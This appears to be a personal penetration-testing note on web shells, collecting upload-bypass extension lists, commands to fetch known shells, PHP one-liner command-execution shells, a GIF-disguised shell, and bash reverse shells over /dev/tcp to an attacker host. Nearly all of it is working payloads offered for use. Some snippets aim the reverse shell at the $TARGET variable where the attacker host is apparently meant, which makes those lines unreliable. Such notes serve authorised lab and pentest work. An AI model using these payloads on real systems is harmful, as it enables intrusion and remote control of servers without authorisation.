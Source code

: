 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

### asp, aspx, cfm, jsp, laudanum, perl, php

![[Pasted image 20220202133058.png]]

```bash - kali
cp /usr/share/webshells/
```


### Bypassing extension limits.
1. Capture and upload in Burp. 
2. Send to Intruder.
3. Dicitonary attack the extension (PHP example below).

```burpsuite - kali
php
php3
php4
php5
phtml
```

### PHP

#### wwolf

```bash - kali
wget https://raw.githubusercontent.com/WhiteWinterWolf/wwwolf-php-webshell/master/webshell.php
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]


#### php reverse shell payload

If you see php payload in exploit, replace with the following for reverse shell:

ORIGINAL:

```
payload = '<?php if($_POST["password"]=="' + password + '"){eval($_POST["cmd"]);}else{echo "<title>404 Not Found</title><h1>Not Found</h1>";}?>'
```

REPLACE WITH:
```php
payload = '<?php passthru("bash -i >& /dev/tcp/$KALI/80 0>&1"); ?>'
```

![[rlwrap]]


#### Pentestmonkey

```bash - kali
cp /usr/share/webshells/php/php-reverse-shell.php ./Shelly.php
```

https://github.com/pascal-gujer/webshellz

#### File upload webshells
Try saving this as 'Shelly.php' file, upload and access.

```php
<?php system($_GET[cmd]);?>
```

```php
<?php echo($_GET['cmd']);?>
```

```php
<?php echo shell_exec($_GET['cmd']);?>
```

![[rlwrap]]

```bash - target
bash+-c+'bash+-i+>%26+/dev/tcp/$KALI/443+0>%261'
```

```php
<?php exec("bash -c 'bash -i >& /dev/tcp/$TARGET/80 0>&1'");?>
```

#### GIF
Upload Shelly.php as a "GIF"

```
GIF8;
<?php echo system($_REQUEST['cmd']); ?>
```

#### File upload webshell

See also: [[5._File Upload]]

Set listener on port 4444 to output any connection to shelly.php.
```php
<?php echo exec('nc -lvnp 4444 > shelly.php 2>&1'); ?>.php
```

```php
<?php
if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
?>
```

![[rlwrap]]

Upload and access Shelly.php.

```bash - kali
curl http://$TARGET/uploads/Shelly.php?cmd=id
```

Use nc to connect and transfer shelly.php.
```bash - kali
nc -nv IP 4444 < shelly.php
```

Visit file upload to connect reverse shell.

#### PHP reverse shell
Shelly.php
```php
<?php exec("bash -c 'bash -i >& /dev/tcp/$TARGET/80 0>&1'");?>
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
